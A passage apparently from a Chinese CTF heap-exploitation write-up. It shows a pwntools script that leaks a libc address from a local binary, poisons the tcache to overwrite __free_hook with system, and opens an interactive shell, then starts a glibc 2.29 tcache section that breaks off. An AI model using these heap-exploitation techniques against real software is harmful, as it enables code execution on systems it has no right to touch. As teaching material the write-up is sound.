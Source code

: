 ```python
leak = 0
while True:
    try:
        leak_addr()
        ss = p.recvuntil(chr(0x7f),timeout = 0.5)
        if len(ss) == 0:
            raise Exception('')
        p.recv(16)
        leak = u64(p.recv(8))
        if leak == 0x320a6464412e310a:
            raise Exception('')
        break
    except Exception:
        p.close()
        p = process('./io_leak')
        continue

launch_gdb()
leak = leak >> 16
log.info('leak libc : '+ hex(leak))
libc_base = leak - 4110208
log.info('libc base: '+ hex(libc_base))
free_hook = 4118760 + libc_base
sys_addr = 324832+libc_base

free(2)
free(4)
alloca(2,0xb0,p64(free_hook))
alloca(4,0x30,p64(free_hook))
alloca(6,0x30,p64(sys_addr))
alloca(7,0x30,p64(sys_addr))
free(0)

p.interactive()
```

# glibc2.29 tcache

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605103621001-46af7055-ad49-43cd-8780-db396ca8639b.png)

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605103633560-6e512f57-ec5f-4e39-b0d5-7ae3ea534190.png)

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605103646037-b611da04-060b-4472-ada2-5a65dc91bd88.png)

## 例题tcache231

### 逆向分析
